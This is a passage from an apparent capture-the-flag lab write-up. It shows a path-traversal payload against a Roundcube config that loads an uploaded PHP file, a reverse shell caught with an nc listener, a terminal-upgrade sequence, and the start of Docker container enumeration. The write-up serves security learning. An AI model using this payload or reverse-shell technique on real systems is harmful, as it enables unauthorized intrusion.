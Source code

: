 This will put it at `[somepath]/oldmanagement/files/31234/papers.php`. I
can take a guess that `[somepath]` is either `/var/www` or maybe
`/var/www.md` (it's the latter). So a payload like this works:



    _plugins_qwerty=../../../../../../../../../var/www.md/oldmanagement/files/31234/papers&_step=2&_product_name=Seventeen+Webmail&submit=UPDATE+CONFIG



On sending, it reports that it saved the config:

[![](/img/image-20220504155844870.png)*Click
for full size
![image*](/img/image-20220504155844870.png)

Now on loading any Roundcube page, it generates a reverse shell:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.10.82 50750
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@1a447de8638b:/var/www.md/mastermailer$



I'll do a [shell upgrade](https://youtu.be/DqE6DxqJg8Q):



    www-data@1a447de8638b:/var/www.md/mastermailer$ script /dev/null -c bash
    Script started, file is /dev/null
    www-data@1a447de8638b:/var/www.md/mastermailer$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@1a447de8638b:/var/www.md/mastermailer$



## Shell as mark \[seventeen\]

### Enumeration

#### Docker

It's clear that I'm in a Docker container. The hostname is
`1a447de8638b` and not something related to the box name. There's a
`.dockerenv` file in `/`:



    www-data@3c0f9fd0f60d:/$ ls -la .dockerenv 
    -rwxr-xr-x 1 root root 0 Apr  8 18:55 .dockerenv
